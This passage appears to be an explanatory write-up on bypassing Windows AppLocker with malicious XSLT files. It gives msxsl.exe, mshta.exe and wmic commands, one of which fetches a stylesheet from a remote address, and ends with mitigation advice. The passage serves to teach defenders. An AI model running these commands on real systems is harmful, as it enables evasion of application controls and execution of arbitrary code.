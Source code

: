 #### Steps to Bypass AppLocker
1. **Create the Malicious XSLT File**: Save the above XSLT code into a file named `malicious.xsl`.

2. **Invoke the XSLT File**: Use `msxsl.exe` or Internet Explorer to run the XSLT file. For example:

```sh
msxsl.exe input.xml malicious.xsl
```

or

```sh
mshta.exe "about:<html><head><xml id='xsl' src='file:///C:/path/to/malicious.xsl'/><script>new ActiveXObject('Msxml2.DOMDocument.6.0').transformNodeToObject(new ActiveXObject('Msxml2.DOMDocument.6.0').loadXML('<root/>'), document.all.xsl);</script></head><body></body></html>"
```

or 

```cmd
wmic process get brief /format:"http://192.168.0.1/test.xsl"
```

or 

```cmd
wmic process call create "wmic os get /format:'file://C:/path/to/malicious.xsl'"
```

#### Security Implications
- **Bypassing Restrictions**: Since `msxsl.exe` and `mshta.exe` are typically not restricted by AppLocker policies, they can be used to execute arbitrary code through the XSLT transformation process.
- **Misuse of Legitimate Tools**: This technique abuses legitimate system tools, making it harder for security software to detect the malicious activity.

#### Mitigation Strategies
- **Restrict Executable Use**: Restrict the use of tools like `msxsl.exe` and `mshta.exe` if they are not needed in your environment.
- **AppLocker Configuration**: Ensure that AppLocker policies are configured to also restrict the execution of script processors and other tools that can be used to bypass restrictions.
- **Monitoring and Alerts**: Monitor for unusual use of tools like `msxsl.exe` and `mshta.exe` and set up alerts for their execution.

By understanding how XSLT can be used to bypass AppLocker, you can better protect your systems by implementing more comprehensive security measures and monitoring.

